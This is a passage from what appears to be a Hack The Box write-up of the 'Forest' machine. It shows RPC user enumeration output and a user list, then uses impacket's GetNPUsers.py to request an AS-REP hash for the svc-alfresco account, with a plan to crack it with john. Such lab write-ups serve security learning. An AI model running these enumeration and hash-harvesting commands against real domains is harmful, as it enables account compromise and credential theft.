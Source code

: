 ```
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
rpcclient $> 
```

## Getting a User Shell:

Since the port 88 is open, we can move on to the kerberosting technique. But to do Kerberosting technique we need credentials on the domain to authenticate. But we have a chance if `Do not require Kerberos preauthentication` is True. There is a tool called `GetNPUsers.py` from [Impackets](https://github.com/SecureAuthCorp/impacket).

This is the tool we looking for, let's give a try.<br/>
![test.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/296181db8d754f9989a8d896078908ba.png)

I created a list of users that we got from `RPC` enumeration.
```
root@w0lf:~/CTF/HTB/Boxes/Forest# cat userlist.txt 
sebastien
lucinda
svc-alfresco
andy
mark
Guest
Administrator
```
From nmap scan it reveals a domain name `htb.local` so I added it to my `/etc/hosts`.
> GetNPUsers.py -usersfile userlist.txt -dc-ip 10.10.10.161 -request htb.local/

![8f2960edac58a5a72cba229387db1fac.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/dae2eef5e8234dad9037373f1f9ae925.png)<br/>
We got user `svc-alfresco` hash. Lets crack it using john.
